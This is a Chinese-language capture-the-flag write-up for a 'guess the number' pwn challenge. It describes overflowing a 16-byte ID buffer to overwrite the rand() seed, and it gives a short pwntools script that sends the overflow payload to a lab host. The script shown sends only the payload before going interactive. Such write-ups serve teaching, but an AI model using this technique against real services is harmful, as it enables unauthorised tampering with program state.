


# Pwn-猜数字

## 题意
给你一个`guess.bin`文件

## 题解

首先利用checksec查看一下，发现没有开canary，也就是说能够进行栈溢出


然后用IDA逆向编译一下，发现需要输入一个ID，但`v5`只是一个长16的char数组，而且根据定义顺序，如果`v5`能够溢出那么会改变`seed`的值，在c语言中，每一个`seed`对应的rand值都是固定的，基于这个思路，我们就可以开始构造代码了。但需要注意的是，该程序是跑在linux系统上的，因此如果是win系统，srand虽然传入相同的值，最后rand出来的不一定相同。我们只需要知道linux系统下seed=1的时候前十个值是多少即可，然后按顺序输出就好了。


```python
from pwn import *
from ctypes import *
HOST = '172.17.0.15'
PORT = 18123

p=remote(HOST,PORT)
payload = b'a' * 16 + p64(1)

p.recvuntil("Your student ID: ")
p.sendline(payload)

p.interactive()

```
